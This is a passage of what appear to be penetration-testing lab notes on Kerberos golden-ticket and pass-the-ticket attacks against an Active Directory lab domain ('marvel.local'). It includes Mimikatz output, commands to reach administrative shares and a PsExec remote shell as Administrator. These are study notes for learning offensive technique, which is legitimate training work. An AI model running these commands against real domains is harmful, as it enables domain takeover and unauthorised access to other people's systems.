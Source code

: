          * PAC generated
         * PAC signed
         * EncTicketPart generated
         * EncTicketPart encrypted
         * KrbCred generated
        
        Golden ticket for 'Administrator @ marvel.local' successfully submitted for current session
        ```
        
4. **Verify Golden Ticket**:
    - Open a new command prompt with the ticket:
        
        ```Shell
        misc::cmd
        ```
        
    - Access resources within the domain (e.g., shares or remote systems):
        
        ```Shell
        dir \\<target_machine>\C$
        ```
        

---

### **Pass-the-Ticket Attack**

- **Purpose**:
    - Use an existing Kerberos ticket to authenticate with domain resources.
- **Execution**:
    - Mimikatz automatically passes the Golden Ticket when generated with `/ptt`.
    - Access any domain machine or shared resource using tools like:
        
        ```Shell
        psexec.py <user>@<target_machine>
        ```
        

---

### **Practical Use Case Example**

1. **Generate a Golden Ticket**:
    - Generate the ticket with `/ptt` for immediate session use.
2. **Access Remote Machine (Example)**:
    - Use the ticket to enumerate a remote machine:
        
        ```Shell
        dir \\TargetMachine\C$
        ```
        
3. **Gain a Shell (Using PSExec)**:
    - Download and use `psexec.exe` from Microsoft Sysinternals:
        
        ```Shell
        PsExec.exe \\TargetMachine -u Administrator cmd.exe
        ```
        